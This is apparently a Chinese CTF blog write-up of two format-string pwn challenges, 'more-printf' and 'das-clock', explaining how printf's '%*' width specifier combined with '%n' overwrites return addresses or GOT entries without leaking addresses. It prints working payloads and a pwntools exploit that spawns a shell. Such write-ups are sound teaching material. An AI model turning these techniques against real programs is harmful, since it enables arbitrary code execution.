

> 感谢rocket师傅提供的解题思路！！https://rocketmadev.github.io/2024/09/04/clock/

# 前言
这次是das*merak的赛后诸葛亮，气煞我也！！！
这次的失误非常多，比如因为之前的不认真导致不知道printf的格式化可以使用如`%*d`的写法来取额外参数作为输出位数，导致我痛失一道1000分的题！！！！当然还是由于前段时间太不认真了。(当时明明korian都把相关文章链接发群里了，但是由于懒没去看，导致这次题目被背刺了)
还有比赛策略其实也有很大问题，我觉得在实力不足以沙暴所有题的情况下，就应该死磕一道，就算做不出来也没事，而且更何况我们队伍目前还有另外两位pwn手，在这次有四题的情况下，就应该分工合作，中午11点多时，火箭说他对于第一题有把握了，我就应该去看其他题目了口牙！！！！！！直到最后下午两点开始看clock这题，三点时才有点思路，导致很可惜口牙！！！！！！！！！！
# more-printf
这道题就是korian之前发过的[文章](https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/)中的题，其中提到了在格式化字符串中利用`*`来额外取一个参数作为打印宽度，就可以绕过泄露libc或是别的数据而直接利用的思路。
## 题目源码
```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

FILE    *fp;
char    *buffer;
uint64_t i = 0x8d9e7e558877;

_Noreturn main()
{
    uint64_t *p;
    p = &p;

    setbuf(stdin, 0);
    buffer = (char *) malloc(0x20 + 1);
    fp     = fopen("/dev/null", "wb");
    fgets(buffer, 0x21, stdin);
    if (i != 0x8d9e7e558877) { _exit(1337); }
    else
    {
        i = 1337;
        fprintf(fp, buffer);
        _exit(1);
    }
}
```
> 这里我更改了原题目的`fgets(buffer,0x1f,stdin)`至`fgets(buffer,0x21,stdin)`，因为在我的本地环境，栈上变量布局略有变化，导致必须多两个字节才能完成利用，不过无伤大雅

题目中很明确有一个指向自己的指针`uint64_t *p = &p`，这是为了方便格式化的利用。
接下来直接是`fprintf(fp,buffer)`的格式化利用。

还有值得注意的一点，fprintf是向`/dev/null`输出的，也就意味着我们不会看到任何fprintf输出的内容，但是好处是这会大大增快fprintf输出的速度，输出如`0x7ffd9e87d118`字节的天文数字也成为可能

至于`i`这个变量，有可能是出题人为了防止做题人引导程序流回到`libc_start_main`打出多次格式化的的非预期解?

## 利用思路
### 观察
> 由于fprintf的前两个参数是stream和format，第三个参数才是vararg的参数列表。
> 所以参数列表顺序为`rdx,rcx,r8,r9,stack_variables`
> 所以在栈上的第一个变量是fprintf参数列表中的第五个参数。


首先观察在`fprintf`之前的布局，寄存器上没有特别值得关注的，所以直接看栈布局。
栈上的关键信息有两个，首先是***0x8的指向自己的指针***，其次是***0x18的`__libc_start_call_main`***
### 关键原理剖析
为了说明`*`的作用，我们先输入`%*8$d%6$lln`试试，其中`%*8$d`显然会取到`__libc_start_call_main`作为参数，`%6$lln`则会修改这个指向自己的指针p的值。

原来指针上的值从`0x7ffd9e87d118`变成了`0xfeb2d90`,其中我们发现`0xfeb2d90`就是`__libc_start_call_main`的后四位。

原因是`%*8$d` == `f'%{0x7ffd9e87d118}d'`(这里用了python语法，意会一下)。不难看出`*8$`共同起到取了第八个参数的值并将其插入到`%`和`d`之间的作用。

> ***这意味着我们可以做到一件事情，取参数列表上的任何参数的值，作为任何格式化字符输出的宽度!
> 这一点如果与`%n`配合起来，我们就可以做到不泄露任何地址，而将参数列表中的任何值，写到参数列表的任何指针中!***

那么我们可以利用这一点做什么呢？接下来的思路当然是将程序流劫持到libc中了。借助`__libc_start_call_main`这个libc地址作为跳板，我们可以将指针的值稳定改成任何与`__libc_start_call_main`中的地址。

### 劫持地址
那么劫持的地址去哪里找呢。由于该程序在fprintf之后不会返回，所以只能往fprintf内部深挖，去找某个返回地址并将其劫持。
> ***返回地址需要满足的条件***
> 1. 必须本身是libc的地址，因为`%*x$d`的取值定死了是int，不能用`%*x$lld%*x$lln`来任意改所有值，也就是我们必须利用原来libc地址的高四位(比如0x7fff这种)。
> 2. 距离指向自己的指针p最好不能太远，最好是只需要改p指针的最后一字节，由于栈地址的最后一位是0或者是8是固定的，在只改最后一字节的情况，爆破概率仅为1/16。
> 若是需要改最后两字节，爆破概率将是1/(16 * 16 * 16)，将会有三位栈地址需要爆破，调试难度大大上升。

根据以上两点条件，我找到了由`fprintf`简单包装的函数`__vfprintf_internal`


图中可以看到`vfprintf_internal`的返回地址为`fprintf`正好是libc的地址。

而且距离p指针正好在0x100内，如果返回地址的最后两位为0xf8，那么p指针就必然是0xf8。
考虑到返回地址最后两位为0x08的概率为1/16，目前为止这个概率完全能够接受。
### 逐步编写exp
在以上这些之后，思路其实就很清晰了。
1. 通过1/16的概率将栈地址改到`vfprintf_internal`的返回地址
2. 通过`%*8$d`输出`__libc_start_call_main`地址个字节，再通过`%6$n`将指针p上指向的`vfprintf_internal`的返回地址的值改为onegadget

上面说了，只有在返回地址末两位为0x08时才更容易成功，那么我们就将指针p的地址末两位改为0x08来拼概率。

第一步时，我们不能使用`%6$n`来取到指针p的值，因为在格式化利用中，不能两次使用`%x$n`的方式来指定修改指针的值，原因我不清楚。主要是看源码能力太差了。

所以我们选择`%c%c%c%c%4c%hhn`的形式来取到第六个参数，也就是指针p。

成功的情况就是图中这样，在指针p的后两位为0xf8时可以成功。

第二步，将返回地址改为ongadget，在2.35情况下我找到偏移为`0xebcf5`的gadget可以用。
接下来我们要计算一下固定偏移了。

`__libc_start_call_main`偏移为`0x29d90`，在考虑上第一步的八个字节。
我们还需要补充`0xebcf5-0x29d90-8` = 794461个字节。
所以第二步payload为`%794461c%6$n`。

总的payload也就是`%c%c%c%c%4c%hhn%794461c%6$n`

## 小插曲
> 但是很可惜，这个题的调试，在高版本情况下，不仅不能在关闭aslr的情况下调试
> 而且在高版本下，预期成功概率还得在除以二(其实1/32的概率还是问题不大)

在作者的低版本环境下，`%*d`将取到的值考虑为一个`unsignedint`，这对我们是一件好事。

而高版本的glibc新增特性，取到的值被考虑为`int`，如果是负数，就将数字左对其输出，比如`printf("%*d",-5,10);`会输出`10   `

但是在高版本情况下，如果取到的libc地址类似于`0x7xxx nxxx xxxx`而其中`n`大于等于8，那么自然`nxxx xxxx`就是一个负数，在下图中可以看出，`width`会被取负。

由于取负值之后的地址不会和其他libc地址形成固定偏移了。而在这种情况下，我们利用libc地址的思路便失败了。

除了成功概率会小一半之外，调试也带来一定麻烦。

# das-clock
[题目附件](./pwn)
## 初步分析
这道题看似功能还挺多的，但是实际上只需要`display_current_time`这个功能就能获取`shell`。


在图中我们看到，我们可以控制`vsnprintf`的format参数，这是非常危险的。
不过和上一题一样，`vsnprintf`的输出会被写入一个`s[256]`的数组，我们得不到其中内容，无法泄露libc地址。所以依然得利用和上一题类似的套路。
## 编写exp


在调试中首先看看我们输入的三段分别在哪个位置。
`format`做了`vsnprintf`的格式化字符串的参数。
`name`则是在堆上(题目的初始化功能给了堆读写执行的权限，所以这里考虑shellcode的可能)
`pwd`则是直接出现在栈上。
由于接下来会执行puts函数，并且`puts`函数的`got`可写，并且elf没有打开aslr，got地址固定为0x404000，所以我们将`putsgot`传入`pwd`，并且想办法将其改成堆地址以执行我们的shellcode
此时payload已经呼之欲出了，直接`%*c`来取到堆地址的值，`%6$lln`取到putsgot将其改为堆地址。

最终exp
```python
puts_got = 0x404000

io.sendlineafter(b'code',b'dbgbgtf')
io.sendlineafter(b'choice: ',b'3')
io.sendlineafter(b'format',b'%*c%6$lln')
io.sendlineafter(b'name',asm(shellcraft.amd64.linux.sh()))
io.sendlineafter(b'pwd',p64(puts_got))
```
好吧，就这样吧，主要是累了，不写哩！！！！
